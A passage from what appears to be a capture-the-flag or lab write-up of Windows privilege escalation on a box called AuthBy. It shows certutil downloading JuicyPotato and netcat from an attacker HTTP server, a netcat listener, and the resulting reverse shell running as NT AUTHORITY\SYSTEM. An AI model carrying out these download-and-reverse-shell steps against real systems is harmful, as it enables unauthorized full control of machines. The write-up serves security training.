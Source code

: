For this privilege escalation I used [JuicyPotato](https://github.com/ivanitlearning/Juicy-Potato-x86/releases) as discussed in this [post](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato) JuicyPotato can be used to target any Class IDs which are serial numbers that represents a globally unique identifier for any application component in Windows. Therefore we can execute commands with the privileges of another application with NT Authority/System privileges to create a reverse shell and grant us a root(system) shell

Transfer JuicyPotato and nc.exe(netcat) to target machine
~~~shell
┌──(kali㉿kali)-[~/Desktop/AuthBy]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
~~~shell
C:\wamp\www>certutil.exe -urlcache -split -f "http://192.168.45.228/Juicy.Potato.x86.exe"
certutil.exe -urlcache -split -f "http://192.168.45.228/Juicy.Potato.x86.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.
~~~
~~~shell
C:\wamp\www>certutil.exe -urlcache -split -f "http://192.168.45.228/nc.exe"
certutil.exe -urlcache -split -f "http://192.168.45.228/nc.exe"
****  Online  ****
CertUtil: -URLCache command completed successfully.
~~~
Create listener on port 443
~~~shell
┌──(kali㉿kali)-[~/Desktop/AuthBy]
└─$ nc -nvlp 443
listening on [any] 443 ...
~~~

Execute JuicyPotato to connect to our netcat listener specifying a CLSID to impersonate from [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) 
(I used {9B1F122C-2982-4e91-AA8B-E071D54F2A4D})

![AuthBy](/assets/img/AuthByPG(8).png)

And we recieve our root (system) shell!

~~~shell
┌──(kali㉿kali)-[~/Desktop/AuthBy]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.182.46] 49175
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~